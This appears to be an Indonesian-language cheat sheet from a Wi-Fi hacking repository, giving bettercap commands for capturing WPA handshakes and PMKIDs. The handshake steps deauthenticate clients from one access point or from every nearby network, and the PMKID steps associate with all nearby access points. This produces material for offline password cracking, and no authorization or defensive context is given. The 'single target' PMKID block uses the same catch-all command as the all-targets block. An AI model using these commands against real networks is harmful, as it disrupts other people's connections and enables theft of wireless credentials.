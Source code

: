 ## 1. Mode Interaktif

```
bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

### Capture Handshake

Single target:

```
set wifi.handshakes.file [output]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

## Capture PMKID

Single target:

```
set wifi.handshakes.file [output]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

## 2. Opsi Caplet

```
bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada disini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)
